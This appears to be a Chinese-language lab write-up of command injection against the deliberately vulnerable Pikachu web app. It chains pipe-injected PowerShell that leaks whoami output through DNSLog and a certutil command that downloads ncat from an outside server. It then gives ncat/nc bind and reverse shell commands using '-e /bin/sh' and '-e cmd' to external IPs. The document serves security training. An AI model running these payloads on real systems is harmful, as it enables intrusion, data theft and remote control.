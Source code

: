 5.1实验 利用ncat 与 管道符漏洞 完成正反向代理

---

#实验环境 ：

- 阿里云+PHPStudy+pikachu （靶机）
- 服务器 （用作上传文件）

- window10              （攻击机）

#使用工具：

- Nmap （[Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download#windows)）
- DNSLog（[DNSLog Platform](http://dnslog.cn/)）
- pikachu（https://github.com/zhuifengshaonianhanlu/pikachu）
- 棱角社区（[[~\]#棱角 ::Edge.Forum*](https://forum.ywhack.com/bountytips.php)）

#实验步骤

1.设置pikachu数据库地址 

- 编辑inc\config.inc `服务器里面可能没有可以编辑PHP格式的建议下载一个Notepad++`

![image-20251017142524334](images/image-20251017142524334.png)

![image-20251017144634453](images/image-20251017144634453-1760791007834-2.png)

2.本机登陆靶机网站 输入`127.0.01数据有回显`

![image-20251017145400934](images/image-20251017145400934.png)

3.在靶机中关闭回显 ctrl+f 搜索 echo

![image-20251017145919479](images/image-20251017145919479.png)

`注释echo`

![image-20251017150055959](images/image-20251017150055959.png)

4.网站无回显

![image-20251017150301157](images/image-20251017150301157.png)

5.使用[DNSLog Platform](http://dnslog.cn/)网站

![image-20251017150504559](images/image-20251017150504559.png)

利用window Poweshell命令 

127.0.0.1 | powershell $x = whoami;$x=$x.Replace('\\','xxx');$y='.z3xxl1.dnslog.cn';$z=$x+$y;ping $z 

- 因为cmd 无法运行 whoami
- 用Powershell变量赋值 把whoami 执行结果给变量
- 因为结果中带有==“\\”==导致ping命令无法执行
- 利用Replace 替换反斜杠变成“xxx”方面可读

==注意“\\”复制命令里面只有两个反斜杠需要删除一个反斜杠==

![image-20251017152502125](images/image-20251017152502125.png)

6.利用ncat.exe

- 由于windows没有Linux自带的nc。我们需要在电脑上下载个Nmap（Nmap自带ncat.exe）

- Nmap下载地址（[Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download#windows)）

![image-20251017153515138](images/image-20251017153515138.png)

- 把ncat上传到另一个服务器目录下 测试访问网址是否可以下载

  ![image-20251017171013453](images/image-20251017171013453.png)

![image-20251017170945228](images/image-20251017170945228.png)



- 打开棱角社区

![image-20251017171400116](images/image-20251017171400116.png)

- 选用一个cmd命令因为靶机是windows系统

certutil.exe -urlcache -split -f http://47.120.15.58:80/ncat.exe c://ncat.exe  `放到c盘`

![image-20251017171522371](images/image-20251017171522371.png)

- 输入命令

  ![image-20251017171744363](images/image-20251017171744363.png)

127.0.0.1 | certutil.exe -urlcache -split -f http://47.120.15.58:80/ncat.exe c://ncat.exe

- 成功放入服务器c盘

![image-20251017171850870](images/image-20251017171850870.png)

7.运用正反向连接即可

1.主动连接

- 主动连接目标5566

​	ncat 47.122.23.131 5566

- 绑定SH到本地5566端口

​	ncat -e /bin/sh -lvp 5566

- 主动连接目标5566

​	nc 47.94.236.117 5566

2、反向连接：主动给出去，对方监听

- 绑定CMD到目标5566端口

​	ncat -e /bin/sh 47.122.23.131 5566

- 等待5566连接

​	nc -lvvp 5566

- 绑定CMD到目标5566端口

​	nc -e cmd 47.94.236.117 5566

- 等待5566连接

​	ncat -lvvp 5566